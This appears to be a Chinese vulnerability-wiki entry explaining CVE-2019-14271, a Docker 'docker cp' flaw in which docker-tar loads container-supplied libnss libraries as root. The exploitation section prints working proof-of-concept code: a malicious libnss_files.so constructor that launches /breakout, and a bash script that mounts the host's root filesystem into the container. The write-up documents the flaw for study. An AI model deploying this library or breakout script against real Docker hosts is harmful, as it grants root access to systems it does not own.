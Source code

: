 （CVE-2019-14271）Docker copy漏洞
=================================

一、漏洞简介
------------

二、漏洞影响
------------

Docker 19.03.1

三、复现过程
------------

### Docker cp

Copy命令允许从容器、向容器中、或容器之间复制文件。语法与标准的unix
cp命令非常相似。要从容器中复制/var/logs，语法是docker cp
container\_name:/var/logs /some/host/path。

从下图所示，要从容器中将文件复制出去，Docker使用了一个名为docker-tar的帮助进程。

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-14271)Dockercopy漏洞/media/rId25.png)

图 1. 从容器中复制文件

docker-tar是通过chroot到容器，将请求的文件或目录存档，然后将生成的tar文件传递给Docker
daemon，然后由daemon提取到主机的目标目录中。

注释：CHROOT就是Change
Root，也就是改变程序执行时所参考的根目录位置。CHROOT可以增进系统的安全性，限制使用者能做的事。

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-14271)Dockercopy漏洞/media/rId26.png)

图 2. docker-tar chroot到容器中

Chroot主要是为了避免系统链接的问题，当主机进程尝试访问容器中的文件时就可能会引发系统链接问题。如果访问的文件中有系统链接，就会解析到host
root。因此，攻击者控制的容器就可以尝试和诱使docker
cp在主机而非容器上读写文件。去年有许多Docker和Podman相关的系统链接CVE漏洞。通过chroot到容器的root，docker-tar可以确保所有系统链接都可以高效地解析。

但，chroot到容器然后从容器中复制文件可能会引发很严重的安全问题。

### CVE-2019-14271

Docker是用Golang语言编写。有漏洞的Docker版本是用Go
v1.11编译的。在该版本中，一些含有嵌入C代码（cgo）的包会在运行时动态加载共享的库。这些包包括net和os/user，都是docker-tar使用的，而且在运行时会加载多个libnss\_\*.so库。一般来说，库是从host文件系统加载的，但因为docker-tarchroot到了容器，因此会从容器文件系统中加载库。也就是说docker-tat会加载和执行来源于容器或由容器控制的代码。

需要说明的是，除了chroot到容器文件系统外，docker-tar并没有被容器化。它是在host命名空间运行的，权限为root全新且不受限于cgroups或seccomp。因此，通过注入代码到docker-tar，恶意容器就可以获取host主机的完全root访问权限。

可能的攻击场景有Docker用户从另一个Docker处复制文件：

容器运行含有恶意libnss\_\*.so库的镜像

容器中含有被攻击者替换的libnss\_\*.so库

在这两种情况下，攻击者都可以获取主机上的root代码执行权限。

### 漏洞利用

为利用该漏洞，研究人员需要先创建一个恶意libnss库。研究人员随意选择了libnss\_files.so文件，下载了库函数的源码，并在代码中加入了一个函数------run\_at\_link()。研究人员还为该函数定义了constructor属性。constructor属性表明run\_at\_link函数在进程加载时会作为库的初始化函数执行。也就是说，当Docker-tar进程动态加载恶意库时，run\_at\_link函数就会执行。下面是run\_at\_link的代码：

    #include ...

    #define ORIGINAL_LIBNSS "/original_libnss_files.so.2"
    #define LIBNSS_PATH "/lib/x86_64-linux-gnu/libnss_files.so.2"

    bool is_priviliged();

    __attribute__ ((constructor)) void run_at_link(void)
    {
         char * argv_break[2];
         if (!is_priviliged())
               return;

         rename(ORIGINAL_LIBNSS, LIBNSS_PATH);
         fprintf(log_fp, "switched back to the original libnss_file.so");

         if (!fork())
         {

               // Child runs breakout
               argv_break[0] = strdup("/breakout");
               argv_break[1] = NULL;
               execve("/breakout", argv_break, NULL);
         }
         else
               wait(NULL); // Wait for child

         return;
    }
    bool is_priviliged()
    {
         FILE * proc_file = fopen("/proc/self/exe", "r");
         if (proc_file != NULL)
         {
               fclose(proc_file);
               return false; // can open so /proc exists, not privileged
         }
         return true; // we're running in the context of docker-tar
    }

查/proc目录完成的。如果run\_at\_link运行在docker-tar环境下，那么目录就是空的，因为procfs挂载在/proc上只存在于容器的mount命名空间。

然后，run\_at\_link会用恶意libnss库替换原始库。这保证了漏洞利用运行的随后进程不会意外加载恶意版本，并触发run\_at\_link执行。

为简化该漏洞利用，run\_at\_link会尝试在容器的/breakout路径下运行可执行文件。这样漏洞利用的其他部分就可以用bash写入，而非C语言。让逻辑的其他部分在run\_at\_link外，意味着在漏洞利用每次变化后无需重新编译恶意库，只需改变breakout二进制文件就可以了。

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-14271)Dockercopy漏洞/media/rId29.png)

利用CVE-2019-14271打破Docker

在该漏洞视频中，Docker用户会运行含有恶意libnss\_files.so的恶意镜像，然后尝试从容器中复制一些日志。镜像中的/breakout二进制文件是一个简单的bash脚步，会挂载host文件系统到/host\_fs的容器中，并将消息写入host的/evil目录。/breakout脚本代码如下：

    umount /host_fs && rm -rf /host_fs
    mkdir /host_fs


    mount -t proc none /proc     # mount the host's procfs over /proc
    cd /proc/1/root              # chdir to host's root
    mount --bind . /host_fs      # mount host root at /host_fs
    echo "Hello from within the container!" > /host_fs/evil

四、参考链接
------------

> https://xz.aliyun.com/t/6806
